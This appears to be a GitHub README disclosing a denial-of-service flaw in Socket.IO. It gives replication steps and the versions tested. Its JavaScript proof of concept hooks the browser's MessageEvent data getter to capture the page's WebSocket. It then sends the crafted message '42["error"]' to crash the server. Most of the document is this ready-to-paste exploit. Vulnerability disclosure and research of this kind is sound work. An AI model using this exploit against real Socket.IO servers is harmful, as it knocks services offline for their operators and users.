 # Socket.IO CVE
A carefully crafted message sent from a connected client can throw an error on the server, causing denial of service

## Replication
- In the code below, the attack will commence as soon as soon as the [WebSocket](https://developer.mozilla.org/en-US/docs/Web/API/WebSocket) instance is intercepted
- One can run this repository, open the url it would be hosted in a browser and paste the code in to execute the attack
- You can wait for a probe from the server(this takes a little while) **or** initiate some interaction just to access the websocket to send the maliciously crafted text
- This works up to `4.6.1` and it works because of unfortunately handled events from this library
- Exact versions tested were: `3.1.2`, `4.3.2`, `4.6.2`(this one didn't crash), `4.6.0`, `4.7.5`(this one didn't crash), `4.6.1`

```js
function listen(fn){ //this function from my answer in https://stackoverflow.com/a/70267397/10697213
  fn = fn || console.log;

  let property = Object.getOwnPropertyDescriptor(MessageEvent.prototype, "data");
  
  const data = property.get;

  // wrapper that replaces getter
  function lookAtMessage() {

    let socket = this.currentTarget instanceof WebSocket;

    if (!socket) {
      return data.call(this);
    }

    let msg = data.call(this);

    Object.defineProperty(this, "data", { value: msg } ); //anti-loop
    fn({ data: msg, socket:this.currentTarget, event:this });
    return msg;
  }
  
  property.get = lookAtMessage;
  
  Object.defineProperty(MessageEvent.prototype, "data", property);
}

listen( ({data,socket}) => {
  console.log(data)
  window.server=socket
  //2 lines above contain pointless logging
  server.send('42["error"]') //THIS IS THE CRITICAL LINE
  //server.send('42["error","you can have any JSON serialisable data here(2nd entry in array) and it will show in the error context >:D"]')
})
```

![server crash example](example.png)